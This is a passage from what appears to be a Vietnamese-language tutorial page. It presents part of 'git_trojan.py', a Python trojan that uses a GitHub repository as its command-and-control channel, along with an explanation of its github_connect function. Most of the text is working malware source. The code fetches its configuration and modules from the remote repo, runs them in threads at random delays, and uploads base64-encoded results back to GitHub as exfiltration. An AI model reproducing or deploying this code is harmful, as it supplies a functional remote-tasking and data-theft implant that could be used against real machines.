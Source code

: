 ```python
        except Exception as e:
            print(f"[!] Error running module {module}: {e}")

    def store_module_result(self, data):
        """Stores module execution results in the repository."""
        try:
            message = datetime.now().isoformat()
            remote_path = f'data/{self.id}/{message}.data'
            bindata = bytes('%r' % data, 'utf-8')
            self.repo.create_file(remote_path, message, base64.b64encode(bindata))
        except Exception as e:
            print(f"[!] Error storing result: {e}")

    def run(self):
        """Continuously fetches config and runs tasks."""
        while True:
            config = self.get_config()
            for task in config:
                threading.Thread(
                    target=self.module_runner,
                    args=(task['module'],)
                ).start()
                time.sleep(random.randint(1, 10))

            time.sleep(random.randint(30*60, 3*60*60))

repo = github_connect()

if __name__ == "__main__":
    sys.meta_path.append(GitImporter(repo))
    Trojan('abc', repo).run()
```
{: file="git_trojan.py"}

## Explanation
---
```python
def github_connect(token_path='path_to_personal_access_token_file', owner='owner', repo='repo_name') -> github3.repos.Repository:
    """Connects to the GitHub repository."""
    with open(token_path) as f:
        token = f.read().strip()
    return github3.login(token=token).repository(owner, repo)
```
{: file="github_connect function"}

Hàm này sử dụng `github3` kết nối, xác thực với Github thông qua **Persional Access Token**, trả về  **Repository Object**.
Có thể thay thế `token_path='path_to_personal_access_token_file'` bằng token trực tiếp và bỏ phần đọc file.
